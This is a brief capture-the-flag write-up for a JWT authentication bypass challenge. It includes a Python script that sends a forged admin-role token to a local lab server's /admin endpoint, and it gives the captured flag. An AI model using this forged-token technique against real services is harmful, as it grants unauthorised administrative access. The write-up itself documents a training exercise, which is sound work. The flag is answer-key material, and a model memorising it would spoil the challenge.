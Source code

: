 ```yaml
---
ai_date: '2025-04-27 05:26:18'
ai_summary: JWT signing bypass due to lack of validation
ai_tags:
- jwt
- bypass
- auth
created: 2025-03-01T20:43
points: 100
solves: 20
updated: 2025-03-18T02:31
---
```


I thought this was a JWT cracking challenge, but turns out I can just sign it with whatever and it will work. The pasted JWT is from jwt.io with `"role": "admin"`.

```python
import requests
s = requests.Session()
s.post("http://127.0.0.1:53080/signup", json={"username": "www", "password": "www"})
res = s.post("http://127.0.0.1:53080/login", json={"username": "www", "password": "www"}).json()
print(s.get("http://127.0.0.1:53080/admin", headers={"Authorization": "Bearer " +
      "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ind3dyIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MDg3OTY1MiwiZXhwIjoxNzQwODgzMjUyfQ.OQyUrtYW33oG9pUdSRh1_Feps9OI1_ZnJ6qVtmbzgu8"}).text)
```

```flag
ATHACKCTF{trust_is_a_vulnerability}
```